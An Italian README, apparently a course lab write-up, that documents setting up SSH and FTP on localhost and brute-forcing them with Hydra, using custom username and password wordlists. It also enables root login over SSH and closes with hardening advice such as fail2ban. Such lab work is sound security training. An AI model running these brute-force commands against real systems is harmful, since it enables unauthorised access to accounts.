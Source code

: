 # 📐 Progetto S6/L5 📐
# 🛡️ Attacco di dizionario su SSH e FTP con Hydra

## **Obiettivo dell'Esercizio**

L'obiettivo dell'esercizio è stato duplice:
1. 🛡️ Fare pratica con lo strumento **Hydra** per effettuare attacchi di brute force sull'autenticazione di servizi di rete.
2. 🔧 Configurare i servizi SSH e FTP, consolidando la conoscenza di gestione e protezione dei servizi di rete.

---

## **Passaggi Seguiti**

### **1. Configurazione del Servizio SSH**

1. **Creazione dell'utente per il test**:
   ```bash
   sudo adduser test_user
   ```
   - Nome utente: `test_user`
   - Password: `testpass`

2. **Attivazione del servizio SSH**:
   ```bash
   sudo service ssh start
   ```

3. **Modifica del file di configurazione SSH** (opzionale):
   - Per permettere configurazioni avanzate, abbiamo modificato `/etc/ssh/sshd_config`:
     ```bash
     sudo nano /etc/ssh/sshd_config
     ```
     - Esempio di modifica: 
       ```
       PermitRootLogin yes
       MaxStartups 10:30:60
       ```
   - Riavvio del servizio SSH:
     ```bash
     sudo service ssh restart
     ```

4. **Verifica del servizio SSH**:
   - Recupero dell'indirizzo IP:
     ```bash
     ifconfig
     ```
   - Test della connessione:
     ```bash
     ssh test_user@127.0.0.1
     ```

### **2. Creazione delle Wordlist Personalizzate**

Abbiamo creato due file di wordlist per simulare un attacco mirato:

- **Wordlist delle password**:
  ```bash
  echo -e "password\n123456\nadmin123\ntestpass\nqwerty\nletmein\npassword1\nwelcome\n12345678\nchangeme\nroot123\ntoor\niloveyou\nsecurepass\npassword123" > passwords.txt
  ```

- **Wordlist dei nomi utente**:
  ```bash
  echo -e "test_user\nadmin\nroot\nuser1\nguest\noperator\nsupport\nmanager\ndeveloper\nservice\nbackup\ntester\naccount\nsuperuser\nsysadmin" > usernames.txt
  ```

### **3. Utilizzo di Hydra su SSH**

Abbiamo utilizzato **Hydra** per effettuare il brute force sul servizio SSH:

1. **Comando per Hydra**:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   ```
   - `-L usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server SSH (localhost).
   - `-t 1`: Esegue un thread alla volta per evitare errori di connessione.

2. **Risultato**:
   - ✅ Hydra ha identificato con successo la combinazione:
     - Nome utente: `test_user`
     - Password: `testpass`

![SSH](./SSHcredfound.png)

### **4. Configurazione del Servizio FTP**

1. **Installazione del server FTP**:
   ```bash
   sudo apt-get install vsftpd -y
   ```

2. **Avvio del servizio FTP**:
   ```bash
   sudo service vsftpd start
   ```

3. **Modifica del file di configurazione FTP**:
   - Disabilitazione dell'accesso anonimo e abilitazione degli utenti locali:
     ```bash
     sudo nano /etc/vsftpd.conf
     ```
     Modifiche effettuate:
     ```
     anonymous_enable=NO
     local_enable=YES
     ```
   - Riavvio del servizio FTP:
     ```bash
     sudo service vsftpd restart
     ```

4. **Creazione dell'utente per il test FTP**:
   ```bash
   sudo adduser ftp_user
   ```
   - Nome utente: `ftp_user`
   - Password: `ftp_pass`

### **5. Utilizzo di Hydra su FTP**

1. **Creazione delle wordlist personalizzate**:
   - File dei nomi utente:
     ```bash
     echo -e "ftp_user\nadmin\nroot\nguest\nuser1" > ftp_usernames.txt
     ```
   - File delle password:
     ```bash
     echo -e "123456\npassword\nftp_pass\nadmin123\nwelcome" > ftp_passwords.txt
     ```

2. **Comando per Hydra**:
   ```bash
   hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 ftp
   ```
   - `-L ftp_usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P ftp_passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server FTP (localhost).
   - `-t 1`: Esegue un thread alla volta.

3. **Risultato**:
   - ✅ Hydra ha identificato con successo la combinazione:
     - Nome utente: `ftp_user`
     - Password: `ftp_pass`

![FTP](./FTPcredfound.png)

---

## **Conclusioni e Considerazioni**

L'esercizio ha dimostrato:
1. 💡 L'efficacia degli attacchi con dizionari mirati.
2. 🔐 La necessità di proteggere i servizi di rete configurando correttamente il file di configurazione e implementando sistemi di rilevamento come `fail2ban`.

### **Miglioramenti Suggeriti per la Sicurezza**
- **Usare chiavi SSH** invece delle password.
- **Limitare i tentativi di login** e disabilitare utenti inutilizzati.
- **Configurare fail2ban** per bloccare tentativi ripetuti.
